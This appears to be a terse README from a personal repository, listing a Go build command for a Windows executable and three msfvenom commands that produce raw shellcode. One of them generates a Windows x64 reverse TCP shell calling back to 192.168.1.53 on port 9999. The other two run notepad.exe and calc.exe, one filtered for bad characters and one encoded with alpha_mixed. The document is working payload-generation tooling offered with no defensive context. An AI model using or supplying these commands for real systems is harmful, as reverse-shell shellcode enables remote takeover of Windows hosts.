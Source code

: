 # pepepepe

export GO111MODULE=on
CGO_ENABLED=on GOARCH=amd64 GOOS=windows go build main.go && /home/mor/GOPATH/src/github.com/morentharia/py_sketches/venv/bin/python deploy.py


msfvenom --platform windows --arch x64  -p windows/x64/exec CMD=notepad.exe -b '\x00\x0A\x0D' -f raw -o shellcode.bin

msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.53 LPORT=9999 -f raw -o shellcode.bin


msfvenom -p windows/exec cmd=calc.exe -f c -e x86/alpha_mixed -o shellcode.bin

